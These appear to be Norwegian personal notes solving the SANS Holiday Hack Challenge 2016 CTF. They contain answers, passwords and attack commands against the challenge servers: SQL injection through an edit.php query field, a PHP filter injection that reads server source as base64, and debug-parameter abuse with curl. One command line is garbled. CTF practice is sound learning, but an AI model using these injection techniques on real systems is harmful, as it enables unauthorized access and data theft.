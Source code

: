 1\) bugbounty

2\) the apk file

3\) guest busyreindeer78

4\) discombobulatedaudio1.mp3

5\) yummycookies

6\) first door\) part1\) santasli part2\) ttlehelper - brukte sudo -u itchy strings /out.pcap, passordet ligger øverst i filen

second door\) open\_sesame - print alle directories rekursivt så man ser hvor man skal. bruk så cd med \ for å finne fram

third door\)	WUMPUS IS MISUNDERSTOOD - skyt pil inn i rommet når man lukter wumpusen

fourth\) 24fb3e89ce2aa0ea422c3d511d40dd84 - bruk less i help-siden til å kjøre ls og finne passordet i kodefilene

fourth door \(Sants office\)\) spill ihht dialogen fra filmen war games

siste dør i gangen\) passordet fra lydfilene



7\)

analytics.northpolewonderland.com

104.198.252.157

brukernavn og pass er guest / busyreindeer87 fra apk

hentet ut audio2 fra nettside ved bruk av query

del2

admin skal visst gi tilgang til noe mer? last ned .git repo og se på changelog i refs/heads/master.

bruk git log til å se på commit messages, fant administrator med passord der. bruk edit funksjonen til å manipulere databasen for å hente ut audio. lag et query, edit det, se på kommandoen som lekker ut, se i edit.php og query.php at man kan skrive inn query i adressefeltet for å manipulere databasen. \(sql injection ish\)

 https://analytics.northpolewonderland.com/edit.php?id=61f9ec9b-6192-463b-aee5-5a0983362dff&name=Name\_Field&description=Description\_Field&query=show tables;, for å vise tabellen

select \* from audio;

select filename, to\_base64\(mp3\) from audio;

kjørte base64 gjennom en online converter for å få ut mp3



ads.northpolewonderland.com

104.198.221.240

https://pen-testing.sans.org/blog/2016/12/06/mining-meteor

mine javascript med meteor-scriptet til man finner noe audio-relatert

trykk routes admin/quotes

homequotes hadde en hidden array object med "audio"



dev.northpolewonderland.com

35.184.63.245

https://ncsa.github.io/sans-holiday-hack-2016/\#org6a9d097

kjøre en curl for å få json-reponsen

curl -s -H "Content-Type: application/json" \

-d '{"date": "20170101010101-0800", "udid": "11111111", "debug": "com.northpolewonderland.santagram.EditProfile, \

     EditProfile", "freemem": "10200", "verbose": true}' \

http://dev.northpolewonderland.com/index.php \| python -mjson.tool \| grep mp3



dungeon.northpolewonderland.com

35.184.47.139

online game - netcat ip port for å spille

skal være et hemmelig rom med en elf

kan bruke ltrace til å inspisere hva som skjer

last ned cdungeon.decode.c og en versjon av dtextc.dat. dekompiler disse filene og kjør diff for å se på forskjellen. fant linje 1024 som jeg kjørte i GDT&gt; DT, entry: 1024 og fik kda ut en epost som ga meg lydfilen.



ex.northpolewonderland.com

104.154.196.33

må skrive og lese crashdumps via php og base64 encode filter.

tror man skal skrive noen form for exploit som returnerer noe nyttig.

masse hint i apken

curl -X POST -H "Content-Type:application/json" -d '{"operation":"ReadCrashDump","data":{"crashdump":"crashdump-joO6X2"}}' http://ex.northpolewonderland.com/exception.php?page=php://filter/base64-encode/resource=exception

kanskje man kan skrive print exception og få ut fil



curl -X POST -H "Content-Type:applicadCrashDump","data":{"crashdump":"php://filter/convert.base64-encode/resource=exception"}}' http://ex.northpolewonderland.com/exception.php \| base64 -d

works



9\) dr who

10\) he wanted to prevent star wars

